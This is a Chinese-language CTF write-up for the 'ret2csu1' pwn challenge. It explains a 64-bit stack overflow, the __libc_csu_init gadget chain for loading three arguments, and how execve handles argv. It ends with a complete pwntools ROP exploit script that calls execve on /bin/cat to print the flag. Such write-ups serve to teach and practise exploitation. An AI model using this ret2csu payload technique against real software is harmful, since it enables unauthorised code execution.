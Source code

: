 ```yaml
---
title: ret2csu1
date: 2023-01-02 19:54:26
categories: 
- pwn_wp
tags: 
- pwn
- stackoverflow
- ROP
---
```

NewStar，ret2csu

<!--more-->

64位栈溢出，保护都只开了NX，message大小为0x20却可以输入0x70。

有一个后门，但是参数不对，可以尝试栈溢出修改寄存器的值后再调用execve。

```c
void __cdecl ohMyBackdoor(__int64_t a, __int64_t b, __int64_t c)
{
  signed __int64 v3; // rax

  if ( a == 'Fallw1nd' && b == 'WantsAGI' && c == 'rlfriend' )
    v3 = sys_execve((const char *)'Fallw1nd', (const char *const *)b, (const char *const *)'rlfriend');
}
```

要修改三个参数不太容易，要用到__libc_csu_init中的gadget。

```c
0x0000000000400710 <+64>: mov    rdx,r15
0x0000000000400713 <+67>: mov    rsi,r14
0x0000000000400716 <+70>: mov    edi,r13d
0x0000000000400719 <+73>: call   QWORD PTR [r12+rbx*8]
0x000000000040071d <+77>: add    rbx,0x1
0x0000000000400721 <+81>: cmp    rbp,rbx
0x0000000000400724 <+84>: jne    0x400710 <__libc_csu_init+64>
0x0000000000400726 <+86>: add    rsp,0x8
0x000000000040072a <+90>: pop    rbx
0x000000000040072b <+91>: pop    rbp
0x000000000040072c <+92>: pop    r12
0x000000000040072e <+94>: pop    r13
0x0000000000400730 <+96>: pop    r14
0x0000000000400732 <+98>: pop    r15
0x0000000000400734 <+100>: ret 
```

从0x40072a开始可以控制rbx,rbp,r12,r13,r14,r15，之后程序控制返回0x400710可以将r15,r14,r13d的内容放入rdx,rsi,rdi，并调用r12+rbx*8指向位置的指令。

我们知道64位程序中rdi,rsi,rdx用于存放前三个参数。因此，我们只要将前三个参数放入r13,r14,r15，再把要执行的指令放入r12，设置rbx为0，即可执行*(void*)r12(r13d,r14,r15)。

要注意的是r13只会传入低4字节，不过本题中的第一个参数的地址只有三字节，没影响。

此外，execve的详细内容也可以看一下。

```c
int execve(const char *file,char *const argv[],char *const envp[])
int main(int argc,char* argv[])
```

execve有三个参数，第一个file是要打开的文件路径，第二个argv是传入的参数，第三个envp是环境变量。execve会将当前进程的内存映像替换为file指向的文件，并将argv作为其main函数的参数argv，环境变量通常为0(NULL)。

一般来说如果调用execve("/bin/sh",0,0)可以直接获得shell。

不过如果要使用argv的话，会有些不同，要写成execve("/bin/sh",{"/bin/sh","file",0})，此时shell会**作为一个shell脚本解释器**来分析file这个路径指向的文件。**argv**的第一个参数要**和执行的程序一样**（此处为"/bin/sh"），第二个参数是分析的sh文件的**路径**，第三个参数是0，如果出错了可以将错误内容从stderr输出。

因此在本题中，使用的是"/bin/cat"，argv={"/bin/cat","flag",NULL}。execve("/bin/cat",{"/bin/cat","flag",NULL},0),这样就可以把flag文件打印出来了

```python
from pwn import*
context(log_level='debug',os='linux',arch='amd64')
filename='pwn'
elf=ELF('./'+filename)
#libc=ELF('')
p=process('./'+filename)
#p=remote('',)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,'\x00'))
leak    = lambda name,addr          :log.success('{} = {}'.format(name, addr))

def debug(cmd='\n'):
  gdb.attach(p,cmd)
  pause()

argv=0x601050#gift2->{"/bin/sh","flag",0}
cat=0x00000000004007BB#gift1->/bin/cat
execv=0x0000000000601068 #gift3->0x400648
pop_addr=0x000000000040072a
mov_addr=0x0000000000400710

payload='a'*0x20+p64(0)+p64(pop_addr)+p64(0)+p64(1)+p64(execv)+p64(cat)+p64(argv)+p64(0)+p64(mov_addr)
debug()
#r()
sl(payload)
itr()
```
